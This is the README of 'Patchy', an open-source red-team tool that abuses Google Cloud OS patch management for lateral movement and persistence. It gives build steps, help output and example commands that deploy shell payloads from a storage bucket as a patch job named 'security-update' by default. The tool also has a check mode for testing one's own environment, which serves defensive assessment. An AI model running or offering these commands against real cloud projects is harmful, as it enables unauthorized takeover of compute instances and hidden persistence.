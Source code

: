 # Patchy
Automated lateral movement and persistence by abusing GCP OS patch management based on my [blog post](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching).

Patchy is made up of two main modes, lateral movement, and persistence. Persistence uses valid service account credentials to create a patch job or deployment. Lateral movement attempts to gain access to all the compute instances within a project. For it to be used, it must be within a GCP environment with the metadata API available. Lateral movement has a mode that enables it to see if exploitation is possible without attempting anything aggressive (good to see if 
your environment is secure).

For feature suggestions please open an issue. If there are any issues please create a PR with your fix.

# Build Instructions
### Windows
`mkdir build;GOOS=windows GOARCH=amd64 go build -o build/patchy.exe ./cmd/patchy/*.go`

### Linux
`mkdir build;GOOS=linux GOARCH=amd64 go build -o build/patchy ./cmd/patchy/*.go`

**Please note this requires >= [go 1.19](https://go.dev/dl/go1.19.src.tar.gz)**

# Usage
```
$ ./patchy -h
d8888b.  .d8b.  d888888b  .o88b. db   db db    db
88  `8D d8' `8b `~~88~~' d8P  Y8 88   88 `8b  d8'
88oodD' 88ooo88    88    8P      88ooo88  `8bd8'
88~~~   88~~~88    88    8b      88~~~88    88
88      88   88    88    Y8b  d8 88   88    88
88      YP   YP    YP     `Y88P' YP   YP    YP
        https://github.com/rek7/patchy
Patchy is a GCP exploitation tool designed for red teaming engagements.

Based on https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching

Usage:
  patchy [flags]
  patchy [command]

Available Commands:
  completion  Generate the autocompletion script for the specified shell
  help        Help about any command
  lateral     Performs automatic lateral movement within a GCP environment
  persist     enables persistence on compute instances owned by service account

Flags:
  -b, --bucket string     bucket name hosting payload
  -h, --help              help for patchy
  -l, --lpayload string   name of linux shell payload (default "payload.bash")
  -p, --persist           enable persistence (patch deployment) (default false)
  -n, --pname string      name of patch deployment/job (default "security-update")
  -w, --wpayload string   name of windows powershell payload (default "payload.ps1")

Use "patchy [command] --help" for more information about a command.
```

# Example
Exploiting service accounts within local GCP environment, `myBucket` is the name of the public bucket hosting the payloads:

`$ ./patchy -b myBucket lat -e`

Installing persistence using service account in json format:

`$ ./patchy -b myBucket persist -c serviceAccount.json`